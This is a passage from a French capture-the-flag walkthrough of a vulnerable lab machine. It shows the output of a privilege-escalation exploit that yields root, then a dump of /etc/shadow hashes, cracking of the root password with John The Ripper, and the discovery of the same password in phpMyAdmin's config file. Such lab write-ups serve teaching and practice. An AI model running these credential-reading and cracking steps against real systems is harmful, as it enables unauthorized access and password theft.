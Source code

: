 ```console
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

C'est gagné, nous sommes root !

## Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Pour conclure ce _walkthrough_, intéressons-nous au fichier ```/etc/shadow```. Celui-ci contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil __John The Ripper__ est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
# cat /etc/shadow | grep "\\\$6\\\$"
root:$6$T.GOt736$vs6M/YHvGJA4urfn4G4VsS9CrnHy60/4ITw6MNo3uA37YFQmFVhcf3SjENDRf1zahO0eZARybZ5IxuegEB74d/:17244:0:99999:7:::
ica:$6$yAfsVVEV$UMXZ7KKc2Xhk6tTukMl.QkFN34d/PLRtKYZCFZzZKFyym3uzhVcWongiw1RIFtGJQyJL2a8vAwG13VHijFbzM.:17244:0:99999:7:::
```

Et surprise, __John The Ripper__ trouve aussitôt le mot de passe de root !

```console
root@blinils:~# john shadow-billu.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
roottoor         (root)
--snip--
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

La réponse était sous nos yeux depuis le début, dans le fichier ```config.inc.php``` de PHPMyAdmin ! Et en outre, le fichier ```sshd_config``` nous informe que les connexions distantes SSH sont autorisées pour le compte root.

```console
# grep -rnw /var -e 'roottoor' 2>/dev/null
/var/www/phpmy/config.inc.php:16:$cfg['Servers'][$i]['password'] = 'roottoor';

# cat /etc/ssh/sshd_config | grep PermitRootLogin
PermitRootLogin yes
# the setting of "PermitRootLogin without-password".
```
